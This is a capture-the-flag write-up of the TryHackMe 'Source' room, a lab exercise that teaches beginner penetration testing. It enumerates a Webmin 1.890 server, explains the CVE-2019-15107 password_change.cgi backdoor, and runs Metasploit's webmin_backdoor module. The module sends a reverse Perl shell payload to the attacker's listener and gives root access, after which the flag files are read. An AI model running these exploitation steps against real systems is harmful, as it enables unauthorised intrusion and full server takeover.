


## Introduction

This writeup delves into the room named [source](https://tryhackme.com/room/source) in tryhackme. 

It is a good room to practice beginner pentesting skills like information gathering, vuln assessment and exploitation.

This writeup follows or tries to mimic the structure of PTES methedology (Info Gathering -> Enum -> Vuln assess -> Exploitation -> Post Exploitation -> Reporting).

## Information Gathering and Enumeration

First step is to start some information gathering. In our case we can't perform passive one so we will start directly with the offense.

### Port Scanning

After performing port scanning with nmap `nmap -sV <Target_IP>` we found:

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Investigating each port


#### PORT 22

So the ssh port is a normal one I don't think that `OpenSSH 7.6p1` is vulnerable one. OpenSSH newer versions are known to be solid secure at least before 2025.

#### PORT 10000

So this is the interesting one port 10000 is an http service using `MiniServ 1.890 (webmin httpd)`

But we need more information about such port so let's invistigate it with the browser.

**Note: Sometimes your browser won't open some THM http(s) services because is does not accept self signed certificates so you need to configure your browser to be able to accept such certs for ONLY THM BOXES DO NOT ALLOW THIS WHEN SURFING NORMAL WEBSITES OR just use firefox and proceed**


So the app has a login form like the following.



And if we try to login with classic creds (admin, admin) we get.



**WebMin:**

So after some research WebMin is a web-based system administration tool or a web-based control panel that is used to control/administrate server resources. Think of it as SSH but with a GUI through a browser. This tool uses MiniServ web server automatically so no need to configure NGNIX or APACHE. So any vulnerability here could be critical since this service manages the target server.


## Vulnerability Assessment

This section delves into different vulnerabilities assemssment.

### Assessment with searchsploit

So for webmin we got the version MiniServ 1.890 (Webmin httpd).


After searching in searchsploit `searchsploit webmin 1.890` we got this

```
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                                                         | linux/webapps/47330.rb
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

So This version of Webmin is vulnerable and causes RCE.

### Assessment with MSF

The vuln assessment in MSF as it follows

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > search webmin 1.920

Matching Modules
================

   #  Name                                     Disclosure Date  Rank       Check  Description
   -  ----                                     ---------------  ----       -----  -----------
   0  exploit/linux/http/webmin_backdoor       2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   1    \_ target: Automatic (Unix In-Memory)  .                .          .      .
   2    \_ target: Automatic (Linux Dropper)   .                .          .      .


Interact with a module by name or index. For example info 2, use 2 or use exploit/linux/http/webmin_backdoor
After interacting with a module you can manually set a TARGET with set TARGET 'Automatic (Linux Dropper)'

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > use 0
```

and the description of the exploit is as follows

```
Description:
  This module exploits a backdoor in Webmin versions 1.890 through 1.920.
  Only the SourceForge downloads were backdoored, but they are listed as
  official downloads on the project's site.

  Unknown attacker(s) inserted Perl qx statements into the build server's
  source code on two separate occasions: once in April 2018, introducing
  the backdoor in the 1.890 release, and in July 2018, reintroducing the
  backdoor in releases 1.900 through 1.920.

  Only version 1.890 is exploitable in the default install. Later affected
  versions require the expired password changing feature to be enabled.
```
So actually this version contains a backdoor. Some malicious files inserted by a hacker

### CVE-2019-15107

After more research I found a vulnerability of RCE specifically **CVE-2019-15107**.

This vulnerability is about a command-injection vulnerability in Webmin’s password_change.cgi endpoint. The old (and in some code paths expired) parameter(s) are not properly sanaitized, allowing an attacker to inject shell metacharacters and achieve remote code execution. It affected Webmin ≈ v1.890–1.920; in v1.890 it can be exploited without authentication, while in some 1.9xx releases the expired-password flow must be enabled.

For further info check this [article](https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html). 


## Exploitaion

After seeing and listing different vulnerabilities I decided to use the backdoor since it provides directly root access to the server so we won't need privilege escalation.

Since the backdoor code exists in MSF we can directly execute it (This is actually is not a good practice in real world pentests/redteaming but since this is an easy box on thm we can have some expectations).

```

msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS XX.XX.XX.XX
RHOSTS => XXXXXXXXX
msf6 exploit(linux/http/webmin_backdoor) > set LHOST XX.XX.XX.XX
LHOST => XXXXXXXXX
msf6 exploit(linux/http/webmin_backdoor) > set SSL true 
msf6 exploit(linux/http/webmin_backdoor) > run
[*] Started reverse TCP handler on XX.XX.XX.XX:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 2 opened (XX.XX.XX.XX:4444 -> XX.XX.XX.XX:53594) 

```

So after running the exploit on MSF we summon an interactive shell on our sessions and we find

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@source:/usr/share/webmin/# 
```
Tadaaa we are already root

With that no need for privilege escalation we directly got the root access and we can get the flags

```
root@source:/usr/share/webmin/# cat /home/dark/user.txt
cat /home/dark/user.txt
THM{PRACTICE_IT_BY_YOURSELF_MORON}
root@source:/usr/share/webmin/# cat /root/root.txt
cat /root/root.txt
THM{THIS_AINT_THE_FLAG}
root@source:/usr/share/webmin/# 
```


